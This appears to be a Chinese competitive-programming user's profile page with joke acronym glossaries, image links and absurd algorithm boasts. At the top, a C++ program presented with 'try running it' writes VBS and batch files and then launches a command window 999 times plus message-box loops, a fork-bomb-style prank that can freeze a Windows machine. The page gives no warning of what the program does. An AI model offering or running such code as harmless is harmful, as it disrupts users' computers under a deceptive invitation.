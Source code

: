 #zy
# 运行试试看
```cpp
#include <bits/stdc++.h>
using namespace std;
int main(){
    freopen("v.vbs","w",stdout);
    string s=" msgbox\"hahaha\" ";
    for(int i=1;i<=100;i++)
    	cout<<s<<endl;
    freopen("v2.vbs","w",stdout);
    cout<<"dim k"<<endl<<"k=1"<<endl<<"while k<101"<<endl<<"k=k+1"<<endl<<"msgbox k"<<endl<<"Wend";
    freopen("v3.bat","w",stdout);
    cout<<"cmd";
    int n;
    n=999;
    freopen("v4.bat","w",stdout);
    for(int i=1;i<=n;i++) 
        system("start v3.bat");
    system("start v2.vbs");
    system("start v.vbs");
    return 0;
}
```
# \\\10.53.106.199\
# [相信自己](http://bbcoj.cn/user-home)
![](https://cdn.luogu.com.cn/upload/image_hosting/2675j4xe.png)
![](https://cdn.luogu.com.cn/upload/image_hosting/mx9euiu0.png)
![](https://s21.ax1x.com/2025/03/22/pE0s9v8.png)
![pERyLHs.png](https://s21.ax1x.com/2025/04/12/pERyLHs.png)
![](https://cdn.luogu.com.cn/upload/image_hosting/7eq74n95.png)
![](https://cdn.luogu.com.cn/upload/image_hosting/f6orng89.png)
![](https://cdn.luogu.com.cn/upload/image_hosting/kvjypt3u.png)
![](https://cdn.luogu.com.cn/upload/image_hosting/wupxcvqg.png)
![](https://cdn.luogu.com.cn/upload/image_hosting/oyb9jfau.png)
# 本人擅长:  
## Ai、Fw、CL、Fl、Br、Ae、Pr、Id、Ps 等软件的安装与卸载；  
## 精通 CSS、JavaScript、PHP、ASP、C、C＋＋、C#、Java、Ruby、Perl、Lisp、python、Objective-C、ActionScript、Pascal 等语言名称的拼写；  
## 熟悉 Windows、Linux、Mac、Android、IOS、WP8 等系统的开关机。
![](https://s1.ax1x.com/2018/03/09/9RBhFI.gif)

![](https://s1.ax1x.com/2018/03/09/9RBOTs.gif)
**AC=Answer Coarse=粗劣的答案**  
**AC=Answer Accidently = 意外的答案**  
**WA=Wonderful Answer=好答案**  
**TLE=Time Limit Enough=时间充裕**  
**MLE=Memory Limit Enough=内存充裕**  
**CE=Compile Easily=轻松通过编译**  
**PC=Past Compile = 通过编译**  
**RE=Run Excellently=完美运行**  
**RE=Right Enough = 太过正确**  
**UKE=Unbelievably Keep Enough Score=难以置信地保持足够的分数**  
**UKE=United Kingdom Error=英国的错误(不关我事)**  
**AU=All~Unaccepted=全都不正确**  
**AK=All~knwon=全部已知(数据)**  
**OLE=Output Limit Enough = 输出充裕**  
**UKE=Unknown Exactness = 不明情况地正确**  

**抄语文作业 == 借鉴**  
**抄数学作业 == 类比**  
**抄英语作业 == copy**  
**抄地理作业 == 迁移**  
**抄生物作业 == 转录**  
**抄物理作业 == 参考系**  
**抄化学作业 == 同分异构**  
**抄政治作业 == 求同存异**  
**抄历史作业 == 文化大统一** 

# 在2024年12月30日33时59分59秒999毫秒时我想出了一个$\mathcal{{O({n^{n^{n^{n^{n^{n^{n^{n^{n^{n^{n^{n^{n}!}!}!}!}!}!}!}!}!}!}!}!})} }(n\ge 1\times 10^{1\times10^{1\times10^{1\times10^{1\times10^{1\times10^{1\times10^{1\times10^{1\times10^{1\times10^{1\times10^{114514}}}}}}}}}}})$的算法，我太聪明了~  

# 在2025年1月1日0时0分0秒1毫秒时我想出了一个$\mathcal{{O(-1)}}$的算法，我太聪明了~


